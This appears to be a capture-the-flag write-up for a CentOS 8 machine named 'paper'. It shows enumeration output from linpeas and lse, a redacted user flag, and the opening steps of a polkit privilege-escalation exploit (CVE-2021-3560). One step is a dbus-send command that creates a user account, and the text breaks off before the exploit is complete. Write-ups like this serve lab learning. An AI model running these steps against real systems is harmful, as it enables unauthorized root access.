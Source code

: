 ### Logged in as dwight
 * Obtained user flag: a86[--------------------------]
 * From `linpeas.sh`:
```Console
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
/usr/bin/crontab
@reboot /home/dwight/bot_restart.sh >> /home/dwight/hubot/.hubot.log 2>&1
```
 * From `lse.sh`
```console
 LSE Version: 3.7

        User: dwight
     User ID: 1004
    Password: ******
        Home: /home/dwight
        Path: /home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin
       umask: 0002

    Hostname: paper
       Linux: 4.18.0-348.7.1.el8_5.x86_64
Distribution: CentOS Linux 8
Architecture: x86_64
```
 * Checked for vulnerabilities for CentOS Linux 8, found [this](https://www.tenable.com/plugins/nessus/150384)
> The remote CentOS Linux 8 host has packages installed that are affected by a vulnerability as referenced in the CESA-2021:2238 advisory.
> 
> - polkit: local privilege escalation using `polkit_system_bus_name_get_creds_sync()` (CVE-2021-3560)
> 
> Note that Nessus has not tested for this issue but has instead relied only on the application's self-reported version number.
 * The CVE listed int he article doesn't address the issue but googling "CentOS 8 polkit exploit" led me to [this blog](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#exploitation)

### Polkit Exploit
> About Polkit:
> polkit is the system service that’s running under the hood when you see a dialog box

1. try running this command in a terminal: `pkexec reboot`
```Console
[dwight@paper shm]$ pkexec
pkexec must be setuid root
```
2. Another command that you can use to trigger polkit from the command line is dbus-send. It’s a general purpose tool for sending D-Bus
messages that’s mainly used for testing, but it’s usually installed by default on systems that use D-Bus. It can be used to simulate the
D-Bus messages that the graphical interface might send. For example, this is the command to create a new user:
```Console
[dwight@paper shm]$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real	0m0.058s
user	0m0.001s
sys	0m0.004s
```